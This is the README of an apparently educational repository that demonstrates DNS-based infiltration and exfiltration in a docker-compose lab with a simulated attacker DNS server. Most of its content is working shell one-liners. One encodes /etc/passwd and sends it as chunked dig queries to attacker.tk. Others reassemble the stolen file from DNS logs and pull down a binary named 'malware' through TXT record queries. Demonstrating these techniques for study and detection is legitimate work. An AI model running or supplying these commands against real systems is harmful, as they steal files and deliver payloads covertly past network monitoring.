 # DNS infiltration and exfiltration demo
This repository contains codes and examples used for an article.
## Screeshots
![screenshot](/assets/screenshot.jpg)
## Requirements
- docker
- docker-compose
## Usage
Create three containers and two networks:
```
$ docker-compose up -d

```
Open three different terminals and connect to each container:
```
docker exec -ti acme-server sh
docker exec -ti acme-dns sh
docker exec -ti attacker-dns sh

```
or if you have `tmux` installed just run this script to get a layout similar to the screenshot above:
```
tmux-setup.sh
```

## Examples
Send a file through DNS queries:
```
gzip -c /etc/passwd | base64 -w0 | fold -w63 | awk 'BEGIN {n = 100} {print "dig +short c"n"."$1".attacker.tk"; n++}' | sh
```
Reassemble file from query log file:
```
grep -E "query\[A\] c\d{3}\." /var/log/dnsmasq.log | awk '{print $6}' | sort -u | cut -d "." -f2 | base64 -d | gunzip -d > mynewfile
```
Create TXT record from "sl" binary:
```
gzip -c /usr/bin/sl | base64 -w0 | fold -w63 | awk 'BEGIN {n = 100} {print "txt-record=c"n".attacker.tk,"$1; n++}'
```
Get a binary quering TXT records:
```
for n in $(seq 100 222);do echo "dig txt +short c$n.attacker.tk" ;done | sh | tr -d '"' | base64 -d | gzip -d > malware
```